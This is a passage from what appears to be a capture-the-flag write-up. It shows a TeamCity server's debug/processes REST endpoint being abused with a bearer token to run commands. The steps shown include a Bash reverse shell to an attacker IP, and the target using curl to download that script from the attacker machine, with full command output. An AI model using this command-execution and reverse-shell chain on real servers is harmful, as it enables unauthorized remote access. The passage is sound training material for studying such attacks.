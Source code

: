 

But `curl` is:



    oxdf@hacky$ curl -X POST 'http://teamcity.runner.htb/app/rest/debug/processes?exePath=which&params=curl' -H "Authorization: Bearer $TOKEN"
    StdOut:/usr/bin/curl

    StdErr: 
    Exit code: 0
    Time: 19ms



I'll write a simple [Bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2ElIw) and save it on my VM
as `rev.sh`:



    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.6/443 0>&1



I am able to fetch it with `curl`:



    oxdf@hacky$ curl -X POST 'http://teamcity.runner.htb/app/rest/debug/processes?exePath=curl&params=10.10.14.6/rev.sh' -H "Authorization: Bearer $TOKEN"
    StdOut:#!/bin/bash

    bash -i >& /dev/tcp/10.10.14.6/443 0>&1

    StdErr:   % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed

      0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
    100    53  100    53    0     0    297      0 --:--:-- --:--:-- --:--:--   297

    Exit code: 0
    Time: 214ms



I'll run again, this time with `-o rev.sh`:



    oxdf@hacky$ curl -X POST 'http://teamcity.runner.htb/app/rest/debug/processes?exePath=curl&params=10.10.14.6/rev.sh&params=-o&params=rev.sh' -H "Authorization: Bearer $TOKEN"
    StdOut:
    StdErr:   % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed

      0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
      0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
    100    53  100    53    0     0    297      0 --:--:-- --:--:-- --:--:--   296

    Exit code: 0
    Time: 215ms
